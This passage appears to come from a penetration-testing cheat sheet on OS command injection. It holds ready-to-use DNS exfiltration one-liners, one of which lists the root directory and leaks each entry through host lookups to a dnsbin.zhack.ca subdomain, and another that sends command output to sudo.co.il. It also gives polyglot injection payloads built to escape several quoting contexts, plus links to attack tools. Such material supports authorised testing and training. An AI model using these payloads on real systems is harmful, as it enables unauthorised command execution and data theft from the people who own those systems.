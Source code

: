 #### **DNS based data exfiltration** ####

Based on the tool from `https://github.com/HoLyVieR/dnsbin` also hosted at dnsbin.zhack.ca

```
1. Go to http://dnsbin.zhack.ca/
2. Execute a simple 'ls'
for i in $(ls /) ; do host "$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
```

```
$(host $(wget -h|head -n1|sed 's/[ ,]/-/g'|tr -d '.').sudo.co.il)
```

Online tools to check for DNS based data exfiltration:

* dnsbin.zhack.ca
* pingb.in

#### **Polyglot command injection** ####

```
1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}

e.g:
echo 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
echo '1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
echo "1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
```

```
/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/

e.g:
echo 1/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
echo "YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/"
echo 'YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/'
```
### **Tools** ###

[https://github.com/commixproject/commix](https://github.com/commixproject/commix)

[https://portswigger.net/bappstore/33e4402eee514724b768c0342abadb8a](https://portswigger.net/bappstore/33e4402eee514724b768c0342abadb8a)

### **References** ###

[https://github.com/PortSwigger/command-injection-attacker](https://github.com/PortSwigger/command-injection-attacker)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)

[https://portswigger.net/support/using-burp-to-test-for-os-command-injection-vulnerabilities](https://portswigger.net/support/using-burp-to-test-for-os-command-injection-vulnerabilities)

[https://threat.tevora.com/stop-collaborate-and-listen/](https://threat.tevora.com/stop-collaborate-and-listen/)

